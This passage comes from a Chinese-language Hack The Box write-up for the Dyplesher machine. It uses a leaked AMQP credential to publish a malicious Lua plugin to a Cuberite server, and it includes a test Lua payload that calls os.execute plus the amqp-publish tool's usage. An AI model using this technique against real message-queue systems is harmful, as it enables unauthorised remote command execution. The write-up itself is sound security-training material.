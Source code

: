 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017a69990a723f1d38.png)

前面提到的`send.sh`就是指Yuntao可以发布用户自己定制的cuberite插件，如下图所示：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014d925186f2a68c7c.png)

Cubrite是一个可扩展的Minecraft服务器实现，它有一个易于使用的插件系统，允许用户用Lua编写自定义插件。

从之前抓到的流量包里我们也知道了Yuntao的AMQP凭证是`EashAnicOc3Op`：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d13c6d6ff51568dd.png)

我们可以借用一款工具来发布我们的Lua插件，[amqp-publish](https://github.com/selency/amqp-publish)：

```
╭─kali@kali ~/htb-tools 
╰─$ ./amqp-publish.linux-amd64 --help        
Usage of ./amqp-publish.linux-amd64:
  -body string
        Message body
  -exchange string
        Exchange name
  -routing-key string
        Routing key. Use queue
        name with blank exchange to publish directly to queue.
  -uri string
        AMQP URI amqp://&lt;user&gt;:&lt;password&gt;@&lt;host&gt;:&lt;port&gt;/[vhost]
```

在此之前，先看看是否可以通过这种方式在目标服务器上执行命令。先尝试创建一个lua脚本，它会向/tmp目录写入名为test的文件：

```
// test.lua

os.execute("touch /tmp/test")
```

先在目标主机上开启fpt服务，主要目的是判断我们有没有成功发布消息：

```
MinatoTW@dyplesher:~/paper$ python3 -m http.server 22222
Serving HTTP on 0.0.0.0 port 22222 (http://0.0.0.0:22222/) ...
```

除了已经知道的`&lt;user&gt;:&lt;password&gt;`以外，我们还需要提供`exchange`和`routing-key`，从`send.sh`中可以推测出它们应该是`plugin_data`：

```
Hey yuntao, Please publish all cuberite plugins created by players on plugin_data "Exchange" and "Queue".
```

通过amqp-publish发布：
